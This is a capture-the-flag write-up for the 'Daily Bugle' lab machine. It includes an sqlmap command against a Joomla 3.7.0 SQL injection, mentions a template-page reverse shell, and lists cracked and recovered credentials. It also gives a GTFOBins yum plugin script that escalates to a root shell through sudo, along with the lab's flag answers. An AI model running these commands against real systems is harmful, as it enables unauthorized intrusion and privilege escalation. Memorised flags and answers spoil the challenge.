 # DAILY BUGLE

## BASIC INFO

```
export IP=10.10.132.139

```
> - **Access the web serer, who robbed the bank?**
>> Spiderman

## OBTAIN USER AND ROOT

> - **What is the Joomla version?**
>> 3.7.0

> - **What is Jonah's craacked password?**
>> spiderman123
```
sqlmap -u "http://10.10.132.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Search for vulnerabilities of Joomla. Found out we can have RCE on the template page. Using reverse shell from pentestmonkey we got a reverse shell. Then enumerate the machine with linPeas. Found credentials:\

`jjameson:nv5uz9r3ZEDzVjNu`

ssh into machine with above credentials

> - **What is the user flag?**
>> 27a260fe3cba712cfdedb1c86d80442e

Running sudo -l we see that we can run yum as sudo without password\
Goinf to [gtfo bin](https://gtfobins.github.io) we search for yum.
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
cd into tmp and create a file name shell. Copy this into shell and make it executable. THen run it and we are root now.
> - **What is the root flag?**
>> eec3d53292b1821868266858d7fa6f79

![badges](../../../badges/dianchia.png)